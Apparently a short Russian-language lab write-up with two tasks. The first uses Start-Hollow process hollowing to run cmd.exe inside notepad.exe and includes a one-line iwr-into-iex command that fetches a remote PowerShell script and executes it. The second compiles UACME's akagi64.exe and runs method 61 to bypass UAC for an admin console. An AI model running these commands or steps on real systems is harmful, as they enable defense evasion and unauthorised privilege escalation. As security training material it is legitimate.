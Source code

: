 
Задача 1:  
1. Требуется запустить PS с правами админа  
2. Устанавливаем Start-Hollow

(iwr –uri [https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Start-Hollow.ps1](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Start-Hollow.ps1) -UseBasicParsing).Content | iex

3. Запускаем Start-Hollow. В поле Sponsor пишем файл с помощью которого запустим другое файл (например: notepad.exe), в поле Hollow пишем имя приложение которое нам нужно запустить (например: cmd.exe)

4. Получаем cmd запущенный в блокноте


Задача 2:

1.      Устанавливаем на основную машину архив [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)

2.      Запускаем С:\UACME-3.6.6\UACME-3.6.6\Source\uacme.sln в Visual Code

3.      Устанавливаем параметры Release x64 и запускаем компиляцию

4.      Затем компилируется файл akagi64.exe, который требуется переместить на windows машину

5.      После запускаем через консоль akagi64.exe 61(ключ для akagi. Производит манипуляции с разделами \system32\slui.exe и  \system32\changepk.exe) и получаем консоль админа (подробнее с ключами для запуска можно ознакомиться на гитхабе). POC для ознакомления с работой данного ключа [slui.exe (ChangePK) Privilege escalation POC](https://gist.github.com/r00t-3xp10it/0c92cd554d3156fd74f6c25660ccc466)

 
